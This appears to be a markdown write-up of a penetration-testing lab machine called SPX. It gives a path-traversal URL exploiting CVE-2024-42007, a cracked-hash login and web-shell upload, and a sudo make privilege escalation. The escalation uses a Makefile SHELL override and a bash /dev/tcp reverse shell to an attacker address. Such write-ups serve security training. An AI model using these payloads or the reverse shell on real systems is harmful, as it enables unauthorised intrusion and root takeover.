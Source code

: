 # SPX Walkthrough

## 🔍 Initial Foothold

- Exploit Used: [CVE-2024-42007](https://github.com/BubblyCola/CVE_2024_42007)
- Accessed vulnerable URL:
  ```
  http://192.168.163.108/index.php?SPX_KEY=a2a90ca2f9f0ea04d267b16fb8e63800&SPX_UI_URI=%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fvar%2fwww%2fhtml%2findex.php
  ```
- Retrieved the index.php file which showed password hashes.
- Recognized structure from `tinyfilemanager.php`.
- Cracked hashes and logged in to the web interface.
- Uploaded `shell.php` and gained initial shell.

## ⚙️ Privilege Escalation

- Discovered user `profiler` with credentials: `profiler:lowprofile`.
- Same credentials worked for admin as well.
- Found this sudo command allowed:
  ```bash
  sudo /usr/bin/make install -C /home/profiler/php-spx
  ```
- Edited `Makefile`:
  ```makefile
  SHELL=/bin/bash /tmp/sh
  ```
- Created `/tmp/sh` file with reverse shell:
  ```bash
  bash -i >& /dev/tcp/192.168.45.194/80 0>&1
  chmod +x /tmp/sh
  ```

- Ran:
  ```bash
  sudo /usr/bin/make install -C /home/profiler/php-spx
  ```
  ➜ Received root shell 🎉

## 🧠 Notes for Stable Shell

To gain interactive shell for nano/editing:
```bash
script -qc /bin/bash
[press Ctrl+Z]
stty raw -echo; fg
export TERM=xterm-256color
```

Then run:
```bash
su <username>
```

---

## 🚀 Git Commands

```bash
# Move to your project directory
mv ~/Downloads/SPX.md ~/Downloads/walkthroughs_project_template/linux/SPX.md

cd ~/Downloads/walkthroughs_project_template

git add .

git commit -m "Added SPX (Linux) walkthrough"

git push
```